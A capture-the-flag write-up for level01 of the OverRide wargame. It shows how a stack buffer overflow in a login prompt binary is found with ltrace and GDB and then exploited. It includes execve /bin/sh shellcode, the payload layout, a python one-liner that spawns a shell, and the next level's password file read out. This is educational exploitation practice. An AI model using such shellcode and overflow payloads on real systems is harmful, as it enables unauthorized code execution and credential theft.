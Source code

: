 
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

***

While we are at it we should find the address where password buffer is stored:

***

    level01@OverRide:~$ ltrace ./level01
    __libc_start_main(0x80484d0, 1, -10300, 0x80485c0, 0x8048630 <unfinished ...>
    puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
    )                                                               = 39
    printf("Enter Username: ")                                                                                = 16
    fgets(Enter Username: dat_wil
    "dat_wil\n", 256, 0xf7fcfac0)                                                                       = 0x0804a040
    puts("verifying username....\n"verifying username....

    )                                                                          = 24
    puts("Enter Password: "Enter Password:
    )                                                                                  = 17
    fgets(admin
    "admin\n", 100, 0xf7fcfac0)                                                                         = 0xffffd6dc
    puts("nope, incorrect password...\n"nope, incorrect password...

    )                                                                     = 29
    +++ exited (status 1) +++

***

Now that we know the offset (80) and password address (0xffffd6dc) we can rewrite eip to call bash with this [shellcode](http://shell-storm.org/shellcode/files/shellcode-827.html):
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

Input string structure:
* 8 bytes -> "dat_wil\n"
* 23 bytes -> shellcode
* 57 bytes (80 - 23) -> padding
* 4 bytes -> 0xffffd6dc

***

    level01@OverRide:~$ python -c 'print "dat_wil\n\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "a" * 57 + "\xdc\xd6\xff\xff"' > /tmp/lvl1
    level01@OverRide:~$ cat /tmp/lvl1 - | ./level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password:
    nope, incorrect password...

    whoami
    level02
    cat /home/users/level02/.pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv